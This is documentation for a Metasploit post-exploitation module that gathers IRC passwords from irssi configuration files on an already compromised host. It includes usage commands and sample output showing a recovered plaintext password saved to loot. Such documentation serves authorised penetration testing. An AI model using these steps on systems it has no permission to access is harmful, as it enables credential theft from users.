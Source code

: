 ## Vulnerable Application

[irssi](https://irssi.org/) an IRC and chat client.

This module was successfully tested against:

- OSX 10.10.5 and IRSSI version 0.8.19

## Verification Steps

  1. Get a `shell` or `meterpreter` session on some host.
  2. Do: ```use post/multi/gather/irssi_creds```
  3. Do: ```set SESSION [SESSION_ID]```
  4. Do: ```run```
  5. If the system has readable configuration files containing irc passwords, they will be printed out.

## Options

  None.

## Scenarios

```
msf post(irssi_creds) > run

[*] Finding ~/.irssi/config
[*] Looting 1 files
[+] Found a IRC password(s): chubbybunnies
[+] IRC password(s) stored in /Users/[REDACTED]/.msf/loot/20170405005410_default_[REDACTED]_irc.password_744582.txt
[*] Post module execution completed
```

